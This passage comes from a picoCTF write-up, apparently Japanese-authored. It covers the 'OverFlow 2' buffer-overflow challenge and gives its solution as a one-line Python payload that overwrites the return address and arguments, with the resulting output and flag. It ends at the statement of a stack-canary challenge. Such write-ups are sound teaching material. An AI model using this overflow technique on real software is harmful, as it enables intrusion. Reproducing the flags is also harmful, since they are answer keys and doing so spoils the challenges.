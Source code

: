 
Flag: `picoCTF{r0p_1t_d0nT_st0p_1t_e51a1ea0}`




<br /><br />
<br /><br />
# [Binary Exploitation]: OverFlow 2 (250 points)
- - -
## Challenge
> Now try overwriting arguments. Can you get the flag from this program?
<br /><br />
Hint: GDB can print the stack after you send arguments

Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
## Solution
これはpicoCTF 2018のbof2とほぼ同じです。

```
$ (python -c 'print("A"*188+"\xe6\x85\x04\x08"+"BBBB"+"\xEF\xBE\xAD\xDE"+"\x0D\xD0\xDE\xC0")'; cat -) | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ?
picoCTF{arg5_and_r3turn55897b905}
```

Flag: `picoCTF{arg5_and_r3turn55897b905}`




<br /><br />
<br /><br />
# [Binary Exploitation]: CanaRy (300 points)
- - -
## Challenge
> This time we added a canary to detect buffer overflows. Can you still find a way to retreive the flag from this program located in /problems/canary_0_2aa953036679658ee5e0cc3e373aa8e0.
<br /><br />
Hint: Maybe there's a smart way to brute-force the canary?

Attachment:

- vuln (ELF 32-bit)
- vuln.c
